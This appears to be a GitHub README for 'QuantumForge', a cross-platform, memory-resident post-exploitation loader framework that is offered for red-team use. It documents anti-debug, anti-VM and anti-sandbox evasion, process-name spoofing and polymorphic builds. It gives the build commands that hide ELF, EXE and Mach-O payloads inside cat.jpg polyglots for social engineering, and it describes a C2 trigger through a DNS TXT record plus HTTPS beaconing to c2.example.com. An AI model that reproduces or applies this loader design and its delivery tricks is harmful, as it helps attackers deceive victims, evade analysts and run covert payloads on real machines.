# QuantumForge 

> **Cross-Platform, Memory-Resident Payload Framework**  
> _Polymorphic | AES+HKDF Encrypted | DNS-over-HTTPS Trigger | No Disk Writes_

---

## DISCLAIMER

**For educational and authorized red team engagements only.**  
Use of this code without proper authorization may violate laws and ethical guidelines.  
**You are responsible for your actions.**

---

## Overview

**QuantumForge** is an advanced post-exploitation loader framework with the following goals:

- **Cross-platform compatibility** (Linux, macOS, Windows)
- **In-memory execution** only (no disk writes)
- **Polymorphic, self-modifying loader**
- **AES-256-CBC + HKDF** payload encryption
- **Modular second-stage loading**:
  - Shellcode
  - Reflective `.so`/`.dll` injection (stage2)
- **C2 trigger via DNS-over-HTTPS**
- **Beaconing via HTTPS POST**
- **Static and behavioral anti-analysis defenses**

---

## upported Platforms

| Platform | Loader | Features |
|----------|--------|----------|
| Linux  | `quantum_server` | `memfd_create`, `dlopen` second-stage, anti-debug, anti-vm |
| Windows | `quantum_loader_win.exe` | Reflective DLL (planned), Bcrypt AES, WinHttp beacon |
| macOS  | `quantum_loader_mac` | `mach_vm_allocate` shellcode exec, CCCrypt AES, curl beacon |

---

## ⚙Features

- **AES-256-CBC + HKDF** encryption (OpenSSL / Bcrypt / CCCrypt)
- **XOR-masked memory** post-decryption
- **Polymorphic payloads** with randomized NOP sleds (`junk.h`)
- **DNS-over-HTTPS activation trigger**
- **HTTPS beaconing** (base64-encoded POST)
- **Second-stage loader**:
  - Linux: `dlopen()` from `memfd_create`
  - Windows: Reflective loader (stub included)
  - macOS: Shellcode (Mach-O loader optional)
- **Self-delete & unlink** logic
- **Anti-debug, anti-vm, anti-sandbox** (RDTSC, sysctl, CPUID, etc)
- **JPEG polyglot** creation for social engineering
- **Section scrubbing + mprotect(PROT_NONE)** to erase decrypted data
- **Process name spoofing** (`[kworker]`, `svchost.exe`, `launchd`)

---

## Usage

1️⃣ Build Linux Payload

```bash
./quantum_forge.sh cat.jpg payload.bin 00112233445566778899aabbccddeeff 0123456789abcdef
Output: cat.jpg (JPEG+ELF polyglot)
```
2️⃣ Build Windows Payload
```powershell
.\quantum_forge_win.ps1 -Image "cat.jpg" -Payload "win_payload.bin" `
  -BaseKey "QuantumKey123456" -Salt "FixedSalt456" -IV "1234567890abcdef"
Output: cat.jpg (JPEG+EXE polyglot)
```
3️⃣ Build macOS Payload
```bash
./quantum_forge_mac.sh cat.jpg payload_macos.bin QuantumKey123 FixedSalt456 1234567890abcdef
Output: cat.jpg (JPEG+Mach-O polyglot)
```
###  Runtime Flags
Flag	Description
--no-doh	Skip DNS-over-HTTPS activation
--no-selfdelete	Do not delete the binary after execution
--fallback-only	Serve payload over HTTP on port 8080 only


### C2 Trigger + Beacon (DNS-over-HTTPS)
Trigger payload execution remotely:
TXT record for c2.example.com:
"C2_TRIGGER:1"
Beacon is sent via POST https://c2.example.com/beacon
Payload: base64-encoded shellcode or second-stage blob.


###  Analysis Evasion
Technique	Description
junk.h	Random instructions for each build (nop, mov, lea, etc.)
Section renaming	Random .text section name per build
Memory wiping	mprotect(PROT_NONE) and scramble_self() to zero disk image
Anti-debug	Checks TracerPid, ptrace, or Win NtQueryInformationProcess
Anti-vm	CPUID vendor string check (e.g. KVMKVMKVM, VMwareVMware)
Anti-sandbox	Sleep delta check using RDTSC or high-precision timers


### Second-Stage Support

QuantumForge supports modular payloads:

| Type                | Linux                       | Windows              | macOS                        |
|---------------------|-----------------------------|----------------------|------------------------------|
| Shellcode           | ✅                          | ✅                   | ✅                           |
| ELF binary          | ✅ `exec_memfd()`           | ❌                   | ❌                           |
| Shared object (.so) | ✅ via `dlopen("/proc/self/fd")` | ❌ *(planned)*     | ❌                           |
| Reflective DLL (.dll) | ❌                        | 🚧 *(stub included)* | ❌                           |
| Mach-O dylib        | 🚧 *(planned)*              | ❌                   | 🚧 *(planned via custom loader)* |

---
### 🧷 Notes
Payload encryption is never stored in plaintext on disk.

All second-stage logic executes entirely in memory.

Polyglot payloads will open as JPEGs when inspected by analysts or tools.


## 🧨 Warning
Do not use it without legal authorization. Abuse will not be tolerated or supported.

---
## 📜 License
MIT License for research and educational use.






